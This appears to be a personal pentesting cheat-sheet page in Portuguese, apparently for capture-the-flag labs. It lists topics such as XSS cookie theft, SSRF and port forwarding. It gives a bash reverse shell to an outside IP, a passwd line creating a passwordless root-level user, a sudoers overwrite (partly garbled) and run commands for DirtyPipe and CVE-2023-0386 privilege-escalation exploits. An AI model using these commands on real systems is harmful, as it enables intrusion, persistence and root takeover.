 [[Cyber - Type Confusion]]
[[Cyber - Exploiting XSS-stealing cookies]]

Esteganografia
SSRF
Path hijacking

[[Cyber - Reverse Shell]]

[[Cyber - Wildcards Spare tricks]]

[[Cyber - Port Forwarding]]

[[Cyber - PHAR - PHP]]

[[Cyber - SSH - Assinando Chaves com certificado ]]

---

Elastic Search
Wazuh

log_file=/root/root.txt; cp /dev/shm/sudoers> /etc/suoderskanalyze_log

---

[[Cyber - Subdomain enumeration]]

---

echo -e '#!/bin/bash\n/bin/bash' > /tmp/initdb.sh

Criar um usuário sem senha e com a shell do root : root4::0:0:root4:/root:/bin/bash

Fazer conexão remota : bash -i >& /dev/tcp/10.10.14.4/1234 0>&1

---

site de hashes : https://gchq.github.io/CyberChef/

---

https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits?tab=readme-ov-file

---
https://github.com/xkaneiki/CVE-2023-0386
./fuse ./ovlcap/lower ./gc &
./exp
